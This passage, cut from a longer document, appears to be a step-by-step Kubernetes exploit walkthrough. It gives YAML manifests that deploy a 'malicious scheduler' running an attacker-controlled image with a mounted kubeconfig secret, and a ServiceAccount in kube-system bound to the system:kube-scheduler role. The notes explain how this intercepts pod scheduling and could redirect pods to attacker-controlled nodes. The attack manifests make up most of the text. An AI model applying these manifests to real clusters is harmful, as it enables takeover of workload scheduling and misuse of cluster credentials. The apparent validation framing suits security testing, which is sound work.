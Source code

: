           serviceAccountName: malicious-scheduler-sa
          containers:
          - name: malicious-scheduler
            image: <attacker-controlled-image> # Replace with your malicious scheduler image
            args:
            - "--kubeconfig=/etc/kubernetes/kubeconfig"
            - "--scheduler-name=malicious-scheduler"
            volumeMounts:
            - name: kubeconfig
              mountPath: /etc/kubernetes
          volumes:
          - name: kubeconfig
            secret:
              secretName: kubeconfig
    ```

    *   **Explanation:** This YAML defines a deployment for the malicious scheduler.  Crucially, it specifies `--scheduler-name=malicious-scheduler`, which is the name that pods will use to target this scheduler.  The `image` field must point to a container image hosted by the attacker. The service account is specified. Kubeconfig is mounted as a volume to provide credentials to the scheduler.
    *   **Why:**  This is the core of the exploit - deploying a custom scheduler that will intercept pod scheduling requests.
    *   **Expected Output:** None. This file is used for the next command.
    *   **Contributes to Validation:** This is the exploitation step, defining the attack vector. **Note:**  The container image referenced here *must* contain the malicious scheduler code.  A minimal scheduler that logs pod scheduling requests is sufficient for demonstration.  A more sophisticated scheduler would redirect pods to attacker-controlled nodes.
    *   **Important:** The attacker-controlled image must be pushed to a registry that the Kubernetes cluster can access.  If the image is private, credentials for pulling the image must be provided.

2.  **Create a Service Account and RoleBinding for the Scheduler**

    ```yaml
    apiVersion: v1
    kind: ServiceAccount
    metadata:
      name: malicious-scheduler-sa
      namespace: kube-system
    ---
    apiVersion: rbac.authorization.k8s.io/v1
    kind: ClusterRoleBinding
    metadata:
      name: malicious-scheduler-binding
    subjects:
    - kind: ServiceAccount
      name: malicious-scheduler-sa
      namespace: kube-system
    roleRef:
      kind: ClusterRole
      name: system:kube-scheduler
      apiGroup: rbac.authorization.k8s.io
    ```
